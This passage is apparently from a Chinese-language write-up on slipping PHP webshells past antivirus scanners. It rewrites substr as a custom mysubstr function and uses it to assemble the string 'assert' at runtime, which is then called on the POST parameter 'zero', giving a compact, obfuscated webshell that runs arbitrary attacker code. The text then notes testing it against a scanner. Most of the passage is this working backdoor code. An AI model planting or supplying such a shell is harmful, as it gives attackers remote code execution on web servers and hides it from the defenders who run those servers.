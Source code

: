那么 我们重写 substr 函数

```
function mysubstr($string, $start = 0, $length = null) {
    $result = '';
    $strLength = strlen($string);
    if ($length === null) {
        $length = $strLength;
    }
    $length = (int) $length;
    $start = $start < 0 ? ($strLength + $start) : ($start);
    $end = $length < 0 ? ($strLength + $length) : $start + $length;
    if ($start > $strLength || ($end - $start) === 0) {
        return $result;
    }
    for (; $start < $end; $start ++) {
        $result .= $string[$start];
    }
    return $result;
}
```

然后把函数替换

```
<?php
$b = 'assert(xyz@';
$c =  mysubstr($b,0,6);
$c($_POST['zero']);
function mysubstr($string, $start = 0, $length = null) {
    $result = '';
    $strLength = strlen($string);
    if ($length === null) {
        $length = $strLength;
    }
    $length = (int) $length;
    $start = $start < 0 ? ($strLength + $start) : ($start);
    $end = $length < 0 ? ($strLength + $length) : $start + $length;
    if ($start > $strLength || ($end - $start) === 0) {
        return $result;
    }
    for (; $start < $end; $start ++) {
        $result .= $string[$start];
    }
    return $result;
}
?>
```

再拿去杀  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZylmYTjRpJ6dBbUiaDoeiaZy424cVAX0j6HrLt0jaPN69kt5dOALvq1VXg/640?wx_fmt=png)  
结论很清楚了
